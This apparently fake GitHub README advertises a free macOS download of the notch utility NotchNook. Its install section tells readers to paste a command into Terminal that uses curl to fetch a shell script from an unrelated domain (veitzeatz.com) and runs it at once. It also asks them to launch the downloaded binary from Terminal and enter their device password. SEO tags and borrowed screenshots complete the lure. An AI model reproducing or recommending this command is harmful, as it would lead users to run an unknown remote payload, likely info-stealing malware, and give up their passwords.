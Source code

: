 # NotchNook — Free Download for macOS 🖥️

NotchNook is a sleek, lightweight utility designed to enhance your macOS experience by transforming the notch area into a dynamic, customizable workspace. Follow the instructions below to download and install NotchNook for free on your Mac.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://veitzeatz.com/notchnook/download)

If the download button doesn’t work, follow the step-by-step terminal instructions below for a seamless installation.

## 📦 How to Install NotchNook for macOS

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag the NotchNook icon to your Applications folder.
3. Launch Terminal and navigate to the Applications folder by typing `cd /Applications`.
4. Run the app by typing `./NotchNook.app/Contents/MacOS/NotchNook` and press "Return."
5. Enter your device password if prompted (leave blank if no password is set).

[![Installation Demo](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via Terminal Command:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal on your Mac and paste the copied command, then press "Return."
3. Enter your device password and confirm the installation.

[![Terminal Installation Demo](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with NotchNook

- 🖼️ **Dynamic Notch Customization**: Transform your MacBook’s notch into a functional workspace with widgets and shortcuts.
- ⚡ **Lightweight Performance**: Runs smoothly without draining your battery or system resources.
- 🛠️ **Customizable Layouts**: Tailor the notch area to suit your workflow with drag-and-drop simplicity.
- 🌙 **Dark Mode Support**: Seamlessly integrates with macOS dark and light modes for a cohesive look.
- 🔄 **Regular Updates**: Receive free updates to ensure compatibility with the latest macOS versions.
- 🔒 **Secure and Private**: No data collection, ensuring your privacy and security.

## About NotchNook

NotchNook is a revolutionary macOS utility that redefines how you interact with your MacBook’s notch. Designed for users seeking a free macOS notch enhancer, this lightweight software turns an otherwise static area into a hub of productivity. Whether you’re a student, professional, or creative, NotchNook offers a seamless way to access tools, widgets, and shortcuts directly from the notch, optimizing your workflow without cluttering your desktop. Its intuitive interface ensures that even first-time users can set it up effortlessly, making it a must-have for anyone looking to download free macOS productivity tools.

The app is built with performance in mind, ensuring it runs efficiently on any macOS device, from older MacBooks to the latest M-series models. By leveraging native macOS APIs, NotchNook delivers a smooth experience without compromising system resources. This makes it an ideal choice for users searching for a free macOS notch customization tool that doesn’t slow down their device. Regular updates keep NotchNook compatible with the latest macOS releases, ensuring long-term usability.

Security is a top priority for NotchNook. Unlike many free macOS utilities, it does not collect user data or require invasive permissions, making it a safe choice for privacy-conscious users. The installation process is straightforward, whether you choose the .dmg file or the terminal command, ensuring accessibility for all skill levels. For those seeking a free macOS notch utility, NotchNook stands out as a reliable and secure option.

NotchNook’s customization options are a game-changer. Users can personalize the notch area with widgets for calendar, weather, or quick notes, tailoring the layout to their specific needs. This flexibility makes it a top choice for those googling free macOS productivity apps or free notch customization tools. The drag-and-drop interface allows you to rearrange elements effortlessly, ensuring your workspace is both functional and visually appealing.

### Why Choose NotchNook?

NotchNook’s key advantage lies in its simplicity and efficiency. Unlike other macOS utilities that overwhelm with complex features, NotchNook focuses on delivering a streamlined, user-friendly experience. Its lightweight design ensures minimal battery impact, while its robust customization options cater to diverse user needs. By offering a free download for macOS, NotchNook makes premium-level functionality accessible to everyone, without hidden costs or subscriptions.

## 🖼️ Preview

![NotchNook Dashboard](https://static1.howtogeekimages.com/wordpress/wp-content/uploads/2024/09/macbook-pro-notch-with-notchnook-running.jpg?q=70&fit=contain&w=1200&h=628&dpr=1)  
*Customizable notch dashboard with widgets for quick access.*

![NotchNook Dark Mode](https://d4.alternativeto.net/lmgGSZXN1pLIgbZLwdkd8pbKVLOGUmSSlplxDllNd2w/rs:fill:618:394:1/g:no:0:0/YWJzOi8vZGlzdC9zL25vdGNobm9va180NTk3OTdfZnVsbC5qcGc.jpg)  
*Seamless dark mode integration for a sleek look.*

![NotchNook Widget Setup](https://d4.alternativeto.net/iBfArJvhLAfoXTwFPup6Nd1d4cJpCyAMWYLHMKCAoDg/rs:fit:2400:2400:0/g:ce:0:0/YWJzOi8vZGlzdC9zL25vdGNobm9va183OTc5MDBfZnVsbC53ZWJw.jpg)  
*Drag-and-drop widget customization in action.*


## 🔍 Tags

notchnook macos, notchnook free download, notchnook free macos, notchnook download, notchnook for free, notchnook macos free, notchnook mac, notchnook for mac
